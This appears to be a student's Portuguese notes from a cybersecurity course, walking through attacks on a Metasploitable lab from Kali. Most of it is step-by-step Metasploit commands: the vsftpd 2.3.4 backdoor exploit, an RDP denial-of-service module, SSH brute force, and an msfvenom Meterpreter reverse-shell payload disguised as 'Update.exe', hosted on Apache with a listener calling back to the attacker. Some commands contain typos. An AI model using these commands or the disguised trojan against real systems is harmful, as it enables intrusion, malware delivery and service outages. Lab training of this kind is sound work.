 Dio - Técnicas de Exploração de Vulnerabilidades

https://www.youtube.com/watch?v=Vq_8nn70kxg&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE


Aqui vamos usar o Kali, para invadir a maquina virtual com o metaexploitable


# DESAFIO DO PROFESSOR
https://github.com/cassiano-dio/cibersecurity-desafio-ransomware


# Explorando Falhas FTP

FTP (File Transfer Protocol) é um protocolo bem antigo (anos 70) usado para transferir arquivos entre cliente e servidor. Funciona na porta 21 (controle) e usa uma porta adicional para dados (ativo ou passivo).

⚠️ Falhas principais do FTP clássico:
• Credenciais em texto puro → usuário e senha podem ser capturados facilmente com sniffing.
• Sem criptografia nativa → os arquivos também viajam abertos pela rede.
• Portas dinâmicas no modo ativo/passivo → complica firewall e pode ser explorado.
• Vulnerável a brute force → como não tem proteção moderna, é alvo fácil.
• Não integra segurança moderna → não tem autenticação forte nem integridade de dados.

👉 Por isso, hoje em dia se usa SFTP (via SSH) ou FTPS (FTP com TLS), que corrigem essas brechas.

## Usaremos o METASPLOIT

Metasploit é uma framework de testes de penetração muito usada por pentesters, red teams e pesquisadores de segurança para explorar vulnerabilidades, gerar payloads e automatizar etapas de ataque e pós-exploração. Foi criada nos anos 2000 e hoje tem versão open-source (Framework) e versão paga (Metasploit Pro).

### Componentes principais

msfconsole — interface principal (CLI).
msfvenom — cria payloads (binários, executáveis, scripts).
Modules — biblioteca de módulos reutilizáveis: exploits, payloads, auxiliary (scanners/fuzzers), post (pós-exploração).
Meterpreter — payload interativo poderoso para pós-exploração (shell avançado, upload/download, pivoteamento).
Banco de dados — integra varreduras (ex.: Nmap) para organizar alvos.

## Payloads

Modulos para exploit, sendo Singles, Stagers, Stages

## Meterpreter

Oi meta-interpreter, é um payloader que funciona por injecção dll

O meterpreter reside interiramente na memoria e não deixa vestigios no disco rigido.

---

# O ataque - Passo a Passo


## Passo 1 
    No Kali, usamos o comando, para iniciar o msf:
    ▶️ msfconsole

## Passo 2
    Localizamos o exploit que vamos usar, ele faz parte da galeria do kali/msf, ▶️ exploit/unix/ftp/vsftpd_234_backdor 

    comando para termos mais informações dele: 
    ▶️ info exploit/unix/ftp/vsftpd_234_backdor
    Esse modul explora um backdor que foi inseriod na versão de June 2011, envenenando uma versão, e versões desatualizadas ainda existem.

## Passo 3 
    Vamos ativar e começar a usar nosso Backdor:     
    ▶️ use exploit/unix/ftp/vsftpd_234_backdor

    Configurar o Ip de destico, Alvo,
    ▶️ set rhosts 192.68.56.100

## Passo 4 Verificar Payload
    Vamos dar uma olhada para selecionar os Payloads, comando:
    ▶️ Show payloads

    Configurar o payload que vamos usar
    ▶️ set payloads payload/cmd/unix/interact

## Passo 5 - Rodar
    Com tudo configurado aqui até agora, podemos rodar com o comando:
    ▶️ exploit

    aqui nois ja esta dentro do sistema alvo.

---

# ETAPA 2 ATAQUE DoS no RDP

youtube.com/watch?v=bVn6Dj4Z8ls&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE

"" Um ataque DoS em RDP visa tornar o serviço indisponível para usuários legítimos, geralmente por flood de conexões, autenticações ou pacotes malformados que esgotam CPU, memória ou travam o serviço, causando indisponibilidade e perda de produtividade; as principais mitigação incluem habilitar NLA e MFA, colocar o RDP atrás de VPN ou RDP Gateway, aplicar rate limiting e firewall, manter o servidor atualizado e monitorar logs e conexões para detectar atividades anômalas.
""
    Vamos fazer um ataque de negação de serviço, em um Remote Desktop Conection,

    A Maldade que vamos usar
▶️ auxiliary/doc/windows/rd@/ms12_020_maxchannelids

# Etapa 3 - Explorando falhas SSH

https://www.youtube.com/embed/uIizaBULfq4?controls=0&disablekb=1&enablejsapi=1&fs=0&iv_load_policy=3&modestbranding=1&showinfo=0&rel=0&html5=1&cc_load_policy=0&origin=https%3A%2F%2Fweb.dio.me&widgetid=1&forigin=https%3A%2F%2Fweb.dio.me%2Ftrack%2Fsantander-ciberseguranca-2025%2Fcourse%2Fexploracao%2Flearning%2F280a133f-d590-4c80-964a-a45b49781159%3Fautoplay%3D1&aoriginsup=1&vf=6

▶Lembre-se, entre no console
▶️ msfconsole

▶️search ssh_login
    Esse cara aqui vai nos ajudar a invadir, ao forçar login com wordlist

Comando, nos permite vizulizar as coneções que estamos conectados.
▶️ Sessions

# ETAPA 4 - Adicionar Backdoor em um executavel

https://www.youtube.com/watch?v=zDINc08S6eg&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE

Mascaremos nosso Backdor em um executavel, temos varios tipos de ataques para executar quando conseguimos um backdor, monitorar todo o computador para faze-lo funcionar

Usar o Meta-interpreter, é um payloader, e ele só existirar dentro da memoria e não do disco rigido 


## Passo 1 - Ligar o Kali e o Alvo(windows)

Para criar nosso executavle malicioso usaremos o msfvenom
    Comando  -   Payload
▶️ msfvenom -p windows/meterpreter/reverse_tcp -a x86 plataform windows -f exe LHOST=192.168.56.103 LPORT=4444 -o Update.exe

🟡 O que cada parte significa

🟡 msfvenom — ferramenta do Metasploit para gerar payloads (binários, shellcode, scripts).

🟡-p windows/meterpreter/reverse_tcp — payload escolhido: Meterpreter para Windows que faz reverse TCP (o alvo conecta de volta ao atacante).

🟡-a x86 — arquitetura do payload: x86 (32-bit). Use x64 se for 64-bit.

🟡--platform windows — plataforma alvo: Windows.

🟡-f exe — formato de saída: executável Windows (.exe).

🟡LHOST=192.168.56.103 — IP do atacante/listener (onde o payload deve conectar). Aqui é o IP da sua máquina de lab.

🟡LPORT=4444 — porta do listener que ficará aguardando a conexão (a mesma no handler).
🟡-o Update.exe — nome do arquivo gerado (escrito no disco): Update.exe.


Criamos um executavel maldozo ja, agora é só passar o idiota para traz, digo cliente desatento.


    Aqui vamos iniciar um servidor para fazer a maldade.
▶️service apache2 start

▶️cp Update.exe /var/www/html

Para gerar a sessão com o usuario e fazer a maldade
Temos que ativar o 
▶️ mfsconsole
▶️ use multi/handler
▶️ set payload windowns/meterpreter/reverse_tcp
▶️ info 
    Para o meterprecer poder escutar definimos o LHOST
▶️ set LHOST Ip Minha maquina
▶️ set LPORT 4444 (( Mesma porta setada no Viruz))